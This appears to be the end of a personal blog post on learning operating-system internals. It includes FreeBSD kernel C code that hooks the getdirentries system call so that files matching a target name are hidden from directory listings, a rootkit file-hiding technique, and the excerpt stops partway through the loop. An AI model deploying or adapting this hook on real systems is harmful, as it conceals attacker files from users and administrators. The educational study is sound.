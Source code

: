 Overall, though, I&rsquo;m beyond proud of this section. I had no prior experience working with an OS (save for 1521, which was ages ago and didn&rsquo;t look at this sort of stuff), but I learnt so much and have such a better understanding of how all these systems work (and why they can be vulnerable). Thanks for sticking through this trek of a post, if you&rsquo;re still here.

## Code

* * *
```C
static int dir_hook (struct thread *td, void *syscall_args) {

    struct getdirentries_args *uap;
    uap = (struct getdirentries_args *)syscall_args;

    // We have the old and modified return values:
    struct dirent *curr, *dp;
    // We set up size to match the variable in uap-&gt;count (in the original file)
    u_int size, count;

    // Run getdirents and store the data into uap-&gt;buf.
    int err = sys_getdirentries(td, uap);
    // This is the actual amount of bytes in the fd.
    size = td-&gt;td_retval[0];

    // If this file directory actually contains any information:
    if (size &gt; 0) {
        // Copy the buffer into kernel memory so we can actually use it.
        MALLOC(dp, struct dirent *, size, M_TEMP, M_NOWAIT);
        copyin(uap-&gt;buf, dp, size);

        //First direntry struct in the list.
        curr = dp;
        count = size;
        u_int len = 0;
        // Iterate through all directory entries here.
        while (count &gt; 0 && curr-&gt;d_reclen != 0) {
            // Reduce count by the size of this direntry.
            len = curr-&gt;d_reclen;
            count -= len;

            // uprintf("Current file: %s\n", curr-&gt;d_name);
            // uprintf("Current file has size: \n");

            // Do we want to hide the file?
            if (strncmp((char *)&curr-&gt;d_name, TARGET_NAME, LENGTH) == 0) {
 				// Only need to cut it out if it's in the
 				// middle of the list. If it's at the end
  				// it'll get cut by the smaller size.
                // uprintf("1\n");
                if (count != 0) {
                    // uprintf("2\n");
                    bcopy((char *)curr + len,
                            curr, count);
                    // uprintf("3\n");
                }

                size -= len;
                // uprintf("4\n");
                break;
            }
            // uprintf("5\n");

            // Update curr to point to the next struct if there
            // are more.
```